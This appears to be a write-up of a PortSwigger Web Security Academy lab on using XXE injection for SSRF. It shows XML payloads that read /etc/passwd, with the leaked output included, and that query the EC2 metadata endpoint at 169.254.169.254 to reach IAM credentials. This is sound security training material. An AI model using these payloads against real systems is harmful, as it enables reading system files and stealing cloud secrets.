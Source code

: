 
# ***[2. Lab: Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf)***

 This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

**what we know:**
EC2 metadata endpoint -  http://169.254.169.254/

1. **request1**: test vilnerability
```xml
POST /product/stock HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&aparecium;
</productId><storeId>2</storeId></stockCheck>
```

response:
```
HTTP/1.1 400 Bad Request

"Invalid product ID: 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin    ..
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
..
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

3. get data from another server:
request for the files in the ip address:
```xml
<!DOCTYPE mage [ <!ENTITY aparecium SYSTEM "http://169.254.169.254/"> ]>
```
response: 
"Invalid product ID: latest"
